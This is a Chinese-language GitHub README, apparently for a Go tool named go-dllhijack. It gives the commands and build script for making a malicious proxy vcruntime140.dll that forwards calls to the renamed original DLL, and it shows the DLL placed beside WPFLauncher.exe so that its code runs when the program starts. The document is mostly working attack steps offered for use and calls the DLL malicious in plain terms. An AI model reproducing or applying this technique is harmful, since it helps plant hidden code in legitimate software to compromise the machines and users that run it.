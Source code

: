 # go-dllhijack
基于go的简单劫持方法

在使用前请确保你系统上有GoLang python MinGW

以vcruntime140.dll为例
```sh
git clone https://github.com/famei/go-dllhijack
pip install pefile
python def.py vcruntime140.dll
```
会得到以下输出
![](https://raw.githubusercontent.com/famei/go-dllhijack/main/def.png)
将输出的内容复制到win.def内

新建一个bat脚本
```bat
dlltool --output-exp win.exp --input-def win.def
set GOOS=windows
set GOARCH=386
set CGO_ENABLED=1
go build -buildmode=c-shared -o vcruntime140.dll -ldflags="-extldflags=-Wl,{文件夹绝对路径}\win.exp -s -w"
```
会得到一个vcruntime140.dll文

将正常的vcruntime140.dll重命名为_vcruntime140.dll

将恶意的vcruntime140.dll和_vcruntime140.dl放在同一目录

这里用WPFLauncher.exe作为演示

双击WPFLauncher.exe程序正常运行 恶意代码被成功执行

![](https://raw.githubusercontent.com/famei/go-dllhijack/main/WPFLauncher.png)


#参考文章
##[golang实现dll恶意劫持转发](https://www.cnblogs.com/Akkuman/p/15339195.html#def-%E5%92%8C-exp-%E6%96%87%E4%BB%B6)

